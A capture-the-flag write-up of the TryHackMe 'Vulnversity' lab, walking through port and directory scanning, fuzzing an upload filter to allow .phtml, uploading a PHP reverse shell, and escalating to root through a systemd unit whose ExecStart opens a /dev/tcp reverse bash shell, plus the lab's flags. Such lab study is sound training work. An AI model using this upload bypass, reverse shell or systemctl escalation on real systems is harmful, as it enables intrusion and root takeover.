




# Vulnversity Writeup

    Box IP Address(es):
    10.10.200.36
    10.10.236.171

### Task 2 - Reconnaissance (nmap)

| nmap flag     | Description                                                                          |
|---------------|--------------------------------------------------------------------------------------|
| -sV           | Attempts to determine the version of the services running                            |
| -p <x> or -p- | Port scan for port <x> or scan all ports                                             |
| -Pn           | Disable host discovery and just scan for open ports                                  |
| -A            | Enables OS and version detection, executes in-build scripts for further enumeration  |
| -sC           | Scan with the default nmap scripts                                                   |
| -v            | Verbose mode                                                                         |
| -sU           | UDP port scan                                                                        |
| -sS           | TCP SYN port scan                                                                    |


#### Q.2 	Scan the box, how many ports are open?

    kali@kali:~/labs/tryhackme/vulnversity$ nmap -v 10.10.200.36
    ...
    Nmap scan report for 10.10.200.36
    Host is up (0.11s latency).
    Not shown: 994 closed ports
    PORT     STATE SERVICE
    21/tcp   open  ftp
    22/tcp   open  ssh
    139/tcp  open  netbios-ssn
    445/tcp  open  microsoft-ds
    3128/tcp open  squid-http
    3333/tcp open  dec-notes

We can see 6 open ports.

#### Q.3 What version of the squid proxy is running on the machine?

    kali@kali:~/labs/tryhackme/vulnversity$ nmap -sV -p3128 10.10.200.36
    ...
    PORT     STATE SERVICE    VERSION
    3128/tcp open  http-proxy Squid http proxy 3.5.12

The Version is 3.5.12.

#### Q.4 How many ports will nmap scan if the flag -p-400 was used?

It will scan 400, since it's essentially saying "scan ports 1-400".

#### Q.5 Using the nmap flag -n what will it not resolve?

DNS (Unsure why that is though).

#### Q.6 What is the most likely operating system this machine is running?


    kali@kali:~/labs/tryhackme/vulnversity$ nmap -A 10.10.200.36

    PORT     STATE SERVICE     VERSION
    21/tcp   open  ftp         vsftpd 3.0.3
    22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   2048 5a:4f:fc:b8:c8:76:1c:b5:85:1c:ac:b2:86:41:1c:5a (RSA)
    |   256 ac:9d:ec:44:61:0c:28:85:00:88:e9:68:e9:d0:cb:3d (ECDSA)
    |_  256 30:50:cb:70:5a:86:57:22:cb:52:d9:36:34:dc:a5:58 (ED25519)
    139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
    445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
    3128/tcp open  http-proxy  Squid http proxy 3.5.12
    |_http-server-header: squid/3.5.12
    |_http-title: ERROR: The requested URL could not be retrieved
    3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
    |_http-server-header: Apache/2.4.18 (Ubuntu)
    |_http-title: Vuln University
    Service Info: Host: VULNUNIVERSITY; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

    Host script results:
    |_clock-skew: mean: 1h19m59s, deviation: 2h18m34s, median: -1s
    |_nbstat: NetBIOS name: VULNUNIVERSITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
    | smb-os-discovery:
    |   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
    |   Computer name: vulnuniversity
    |   NetBIOS computer name: VULNUNIVERSITY\x00
    |   Domain name: \x00
    |   FQDN: vulnuniversity
    |_  System time: 2020-07-22T21:20:36-04:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2020-07-23T01:20:37
    |_  start_date: N/A

From this I surmised that the likely OS was Ubuntu.

#### Q.7 What port is the web server running on?

Port 3333. We can see Apache httpd server running on port 3333.

#### Q.8 Its important to ensure you are always doing your reconnaissance thoroughly before progressing. Knowing all open services (which can all be points of exploitation) is very important, don't forget that ports on a higher range might be open so always scan ports after 1000 (even if you leave scanning in the background)

### Task 3 - Locating directories using GoBuster

Gobuster with wordlist:

    gobuster dir -u http://<ip>:3333 -w <word list location>

| GoBuster flag     | Description                               |
|-------------------|-------------------------------------------|
| -e                | Print the full URLs in your console       |
| -u                | The target URL                            |
| -w                | Path to your wordlist                     |
| -U and -P         | Username and Password for Basic Auth      |
| -p <x>            | Proxy to use for requests                 |
| -c <http cookies> | Specify a cookie for simulating your auth |


#### Q.2 What is the directory that has an upload form page?

    kali@kali:~/labs/tryhackme/vulnversity$ gobuster dir -u http://10.10.200.36:3333 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt

    ===============================================================
    Gobuster v3.0.1
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
    ===============================================================
    [+] Url:            http://10.10.200.36:3333
    [+] Threads:        10
    [+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
    [+] Status codes:   200,204,301,302,307,401,403
    [+] User Agent:     gobuster/3.0.1
    [+] Timeout:        10s
    ===============================================================
    2020/07/22 22:06:03 Starting gobuster
    ===============================================================
    /images (Status: 301)
    /css (Status: 301)
    /js (Status: 301)
    /fonts (Status: 301)
    /internal (Status: 301)
    Progress: 11284 / 87665 (12.87%)^C
    [!] Keyboard interrupt detected, terminating.
    ===============================================================
    2020/07/22 22:08:19 Finished

Tested each of these, found /internal to be the upload form, so terminated the search.
http://10.10.200.36:3333/internal/


### Task 4 - Compromise the webserver

Now you have found a form to upload files, we can leverage this to upload and execute our payload that will lead to compromising the web server.

#### Q.1 Try upload a few file types to the server, what common extension seems to be blocked?

Decided to upload a .jpg, .txt, .php, all of them failed, but .php was the correct answer.

#### Q.2

*To identify which extensions are not blocked, we're going to fuzz the upload form.

To do this, we're doing to use BurpSuite. If you are unsure to what BurpSuite is, or how to set it up please complete our BurpSuite room first.*

Already know how to use Burpsuite.

#### Q.3 	

*We're going to use Intruder (used for automating customised attacks).*

*To begin, make a wordlist with the following extensions in:*

    kali@kali:~$ cat phpext.txt
    .php
    .php3
    .php4
    .php5
    .phtml

*Now make sure BurpSuite is configured to intercept all your browser traffic. Upload a file, once this request is captured, send it to the Intruder. Click on "Payloads" and select the "Sniper" attack type.*

*Click the "Positions" tab now, find the filename and "Add §" to the extension. It should look like so:*



*Run this attack, what extension is allowed?*

First we can configure burpsuite to set the Target Host to be 127.0.0.1, Port 80. Then turn on FoxyProxy on Firefox with BurpSuite settings, and revisit http://10.10.236.171:3333/internal/.

Upload an arbitrary file (I used "test.jpg"), and click on Submit. Then on Burpsuite, click on:

"Proxy" --> "Action" --> "Send to Intruder".

On the Intruder tab, go onto the "Payloads" tab, select Payload Type as Simple List. On "Payload Options", click "Load..." and choose the phpext.txt file we created earlier (as per the instructions).

Then under the "Payload Encoding" section, deselect the checkbox "URL-encode these characters". This will stop the `.` from becoming `%2e`.

Go to the "Positions" tab, under "Payload Positions" section, choose Attack Type as "Sniper". Click on "Clear §", then under the "Content Disposition" line in the actual data section, select the ".jpg" (with the dot), and click on "Add §", so it looks like this:

    Content-Disposition: form-data; name="file"; filename="test§.jpg§"

Then click on "Start Attack".

Output:



We can see that all lengths were 727 apart from .phtml which has a length of 723. Inspecting that packet we can see that it has "Success!" so we know that .phtml can be uploaded.



#### Q.4

*Now we know what extension we can use for our payload we can progress.*

*We are going to use a PHP reverse shell as our payload. A reverse shell works by being called on the remote host and forcing this host to make a connection to you. So you'll listen for incoming connections, upload and have your shell executed which will beacon out to you to control!*

*Download the following reverse PHP shell [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).*

*To gain remote access to this machine, follow this:*

1. *Edit the `php-reverse-shell.php` file and edit the ip to be your tun0 ip (you can get this by going to your access page on TryHackMe and using your internal ip).*

2. *Rename this file to `php-reverse-shell.phtml`*

3. *We're now going to listen to incoming connections using netcat. Run the following command:* `nc -lvnp 1234`

4. *Upload your shell and navigate to `http://<ip>:3333/internal/uploads/php-reverse-shell.phtml` - This will execute your payload*

5. *You should see a connection on your netcat session*

First we're going to edit the php-reverse shell to this:

    $ip = '10.8.82.167';
    $port = 4444;

and rename the file to `php-reverse-shell.phtml`:

```bash
kali@kali:~/labs/tryhackme/vulnversity$ mv php-reverse-shell.php php-reverse-shell.phtml
```

Then open up a new Terminal, and start up a nc listener:

    nc -lvnp 4444

Upload the .phtml file, and navigate to http://10.10.236.171:333/internal/uploads/php-reverse-shell.phtml`

The PHP reverse shell will execute, and you now have a shell in the Terminal!


Use `python -c 'import pty;pty.spawn("/bin/bash")'` to get an interactive shell.

#### Q.5 What is the name of the user who manages the webserver?

Just `cat /etc/passwd` and we can see there's a user called Bill!

#### Q.6 What is the user flag?

    cat /home/bill/user.txt

Output: 8bd7992fbe8a6ad22a63361004cfcedb


### Task 5 - Privilege Escalation

*Now you have compromised this machine, we are going to escalate our privileges and become the superuser (root).*

#### Q.1

*In Linux, SUID (set owner userId upon execution) is a special type of file permission given to a file. SUID gives temporary permissions to a user to run the program/file with the permission of the file owner (rather than the user who runs it).*

*For example, the binary file to change your password has the SUID bit set on it (/usr/bin/passwd). This is because to change your password, it will need to write to the shadowers file that you do not have access to, root does, so it has root privileges to make the right changes.*


*On the system, search for all SUID files. What file stands out?*

    find / -user root -perm -u=s -type f 2>/dev/null


We can see that /bin/systemctl can be run as root!

#### Q.2 	

*Its challenge time! We have guided you through this far, are you able to exploit this system further to escalate your privileges and get the final answer?*

*Become root and get the last flag (/root/root.txt)*

We know that systemctl allows you to start, enable, disable different services. This should be for privileged users only, however it's been misconfigured here with the SUID bit set to allow anyone to run it as root.

So we can instead create our own service that starts up a shell, and start it with systemctl. Since systemctl runs as root, we should get a root shell.

Remember, systemd is the actual Linux Service Manager. We use systemctl to control systemd.

1. Create the Systemd Unit File

Found [here](https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49), credit to them!

```bash
www-data@vulnuniversity:/tmp$ cat root.service
[Unit]
Description=Get me to root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.82.167/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

What this does:

[Tutorial 1 - Digital Ocean](https://www.digitalocean.com/community/tutorials/understanding-systemd-units-and-unit-files)

[Tutorial 2 - FreeDesktop](https://www.freedesktop.org/software/systemd/man/systemd.service.html)

[Tutorial 3 - Man](https://man7.org/linux/man-pages/man5/systemd.service.5.html)

From what it looks like, we're providing the service with the BARE minimum required to create a service. The "ExecStart" just executes the command, in this case it's a reverse bash shell found [here](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) (PentestMonkey).

Then start up a netcat listener on your terminal:

    nc -lvnp 9999

Finally, run:

    systemctl /tmp/root.service

And you'll have a root shell on your Netcat Listener!



Flag: a58ff8579f0a9270368d33a9966c7fd5

Completed!
